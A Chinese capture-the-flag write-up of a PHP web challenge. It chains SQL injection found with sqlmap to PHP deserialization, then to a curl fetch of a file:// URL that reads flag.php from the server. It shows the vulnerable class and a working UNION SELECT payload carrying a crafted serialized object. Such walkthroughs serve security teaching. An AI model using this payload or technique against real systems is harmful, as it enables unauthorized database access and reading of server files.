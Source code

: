 ```php
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

随便注册一个，注册页面发现post注入，评论页面发现no参数注入，sqlmap试一下，在post处dump到数据。

![](https://ww1.yunjiexi.club/2020/01/22/jKtiP.md.png)

发现是php反序列化的数据。

```php
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:16:"www.arklight.xyz";}
```

注意到另一个注入点no处，我们输入一个不存在的id，会提示

![](https://ww1.yunjiexi.club/2020/01/22/jK9Rw.png)

说明age和blog是接受了php反序列化的对象的，并且报错语句暴露了物理路径。

所以照着这个思路，经过尝试，构造注入语句

```
no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' --+
```
